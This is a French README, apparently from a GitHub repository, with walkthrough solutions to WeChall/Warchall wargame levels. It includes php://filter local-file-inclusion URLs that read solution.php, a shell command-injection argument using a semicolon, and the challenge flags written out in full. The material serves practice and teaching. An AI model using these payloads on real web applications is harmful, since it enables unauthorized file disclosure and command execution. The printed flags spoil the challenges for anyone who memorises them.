 # Wechall_SYS1
## Training: Warchall - The Beginning
##### Ce repository contient les solutions aux différents niveaux du challenge Wechall_SYS1. 

La commande `ls -R` permet de lister de manière récursive les fichiers et les répertoires dans un répertoire. Cette commande permet d'avoir une emsemble de path pour les soltions avec les bonnes permissions.
    
1. **Level 0:**
   
   + La solution pour le Level 0 est :

   `cat /home/level/00_welcome`

2. **Level 1:**
   
   + La solution pour le Level 1 est :
     
   ` cd /home /level/01_choice_tree` .La soution est dans `cd. /blue/hats/grey/soltion/patience`

   `cat SOLUTION.txt`
   
3. **Level 2:**
   
   + La solution pour le Level 2 est :

  `cd / home/level/02/.porb$`
  `cat .solution`

4. **Level 3:**
   
   + La solution pour le Level 3 est :

   `cd /home/level/03$` puis avec la commande `ls -la`
   `cat .bash_history`

5. **Level 4:**
   
   + La solution pour le Level 4 est "AndOfCourseIDoKnowChown".

   `~/level/04_kwisatz$`
   `cat README2.md`

6. **Level 5:**
   
   + La solution pour le Level 3 est :

   `cd /home/level/05_privacy$` et avec la commande `ls -la`
   `cat README.md`

## 	Warchall: Live LFI && Warchall: Live RFI : Level 14&15

  ##### RFI (Remote File Inclusion) et LFI (Local File Inclusion) sont des vulnérabilités de sécurité liées à la gestion des fichiers dans les applications web.
  
### 1.LFI (Local File Inclusion) Challenge

+ Acceder au lien du challenge `Live LFI`
  
+ Acceder à la page `https://lfi.warchall.net/` et de choisir une langue UK ou DE
  
+ Une fois avoir fait cet etape, URL est ainsi `https://lfi.warchall.net/index.php?lang=de `
  
  - Avec le LFI qui permet l'inclusiion de fichiers locaux et pour extraire cette vulnerabilté, il faut utliser `php://filter` mais dans notre cas, nous voulons avoir la `solution.php`. Ainsi voici les demarches :
    
    - `https://lfi.warchall.net/index.php?lang=` en supprimant `de`
    - Le wrapper `php://filter/convert.base64-encode/resource=` avec `solution.php` comme cible
    - Nous allons ainsi executer `https://lfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php`
    - En sortie, nous aurons un code en Base64 avec la methode `php://filter/convert.base64-encode/resource=`
      
+ Le code obtenu est  `PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcgc2kgbmFlciE8L3ByZT4KPHByZSBzdHlsZT0iY29sb3I6I2ZmZjsiPnRoZSBmbGFnIGlzIG5lYXIhPC9wcmU+CjwvYm9keT4KPC9odG1sPgo8P3BocCAgICAgICAgICAgICAgICAgICMgICBZT1VSX1RST1BIWSAKcmV0dXJuICdTdGVwcGluU3RvbmVzNDJQaWUnOyAjIDwtwrQgPz4K`

+ Decodage code base64
  - Le premier methode, c'est avec la commande
    ```bash
      echo 'PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcg...' | base64 -d
      ```
  - Le deuxieme methode c'est avec les online Decode and Encode Base64 comme sur (https://www.base64decode.org/) . Nous pouvons ainsi obtenier un code en HTML et Php comme solution :
 
```   
<html>
<body>
<pre style="color:#000;">teh falg si naer!</pre>
<pre style="color:#fff;">the flag is near!</pre>
</body>
</html>
<?php                  #   YOUR_TROPHY 
return 'SteppinStones42Pie'; # <-´ ?>
```

### 2.RFI (Remote File Inclusion) Challenge

+ Acceder au lien du challenge `Live RFI`
+ Acceder à la page `https://rfi.warchall.net/` et de choisir une langue EN ou DE
+ Une fois avoir fait cet etape, URL est ainsi `https://rfi.warchall.net/index.php?lang=en`
  
    - Avec le RFI qui permet d'exploiter une faille pour inclure à distance des fichiers sur le serveur, généralement des scripts, pour exécuter du code à distance sur le serveur Web. Il faut également utliser `php://filter` qui est une fonctionnalité de PHP qui permet de manipuler et de filtrer des flux de données
    - `https://rfi.warchall.net/index.php?lang=en` en supprimant `en`
    - Il faut inserer le filtre `https://rfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php`
    - Nous pouvons ainsi obtenir un code en base64

+ Le code obtenu est `PGh0bWw+Cjxib2R5Pgo8cHJlPk5PVEhJTkcgSEVSRT8/Pz88L3ByZT4KPC9ib2R5Pgo8L2h0bWw+CgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICA8P3BocCByZXR1cm4gJ0xvd19INE5HSU5HX0ZydWl0JzsgPz4K `

+ Decodage code base64 avec la commande ou les online Decode and Encode Base64:
  
  ```bash
      echo 'PGh0bWw+Cjxib2R5Pgo8cHJlPk5PVEhJTkcgSEVSRT8/Pz88L3ByZT4KPC9ib2R5Pgo8L2h0bWw+CgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICA8P3BocCByZXR1cm4gJ0xvd19INE5HSU5HX0ZydWl0JzsgPz4K ' | base64 -d
  ```
  
 ```  
<html>
<body>
<pre>NOTHING HERE????</pre>
</body>
</html>
<?php return 'Low_H4NGING_Fruit'; ?>
 ```

+ Nous pouvons ainsi obtenier un code en HTML et Php comme solution.



## Warchall: Choose your Path `/home/level/10/`

+ il faut acceder au level 10 par la commande `cd /home/level/10_choose_your_Path`
  
+ dans ~/home/level/10_choose_your_Path$ , if faut voir les contenu avec `ls -la`
+ Il faut acceder et executer fichier `./charp "solution.txt; cat solution.txt > ~/solutionPath1.txt" ` et `cd ~`
  
+ `cat solutionPath1.txt` pour voir le contenu du fichier solutionPath1.txt
  
+ L'execution du script `./charp`
  
+ `./charp "solution.txt; cat solution.txt > ~/solutionPath1.txt" ` est une injection des commandes après le point-virgule dans une commande shell.

+ `./charp "solution.txt; cat solution.txt > ~/solutionPath1.txt" `
  
   - `./charp ` : Cela exécute le fichier exécutable appelé "charp" dans le répertoire courant `./`
   - ` "solution.txt; cat solution.txt > ~/solutionPath1.txt" ` : C'est l'argument fourni à la commande "charp".
      - `solution.txt` : C'est une chaîne de caractères représentant un fichier appelé "solution.txt"
      - ` cat solution.txt > ~/solutionPath1.txt ` : C'est une deuxième commande qui sera exécutée après le point-virgule. Elle utilise la commande cat pour afficher le contenu du fichier "solution.txt" et redirige la sortie (>) vers un nouveau fichier appelé "solutionPath1.txt" dans le répertoire personnel de l'utilisateur `~`
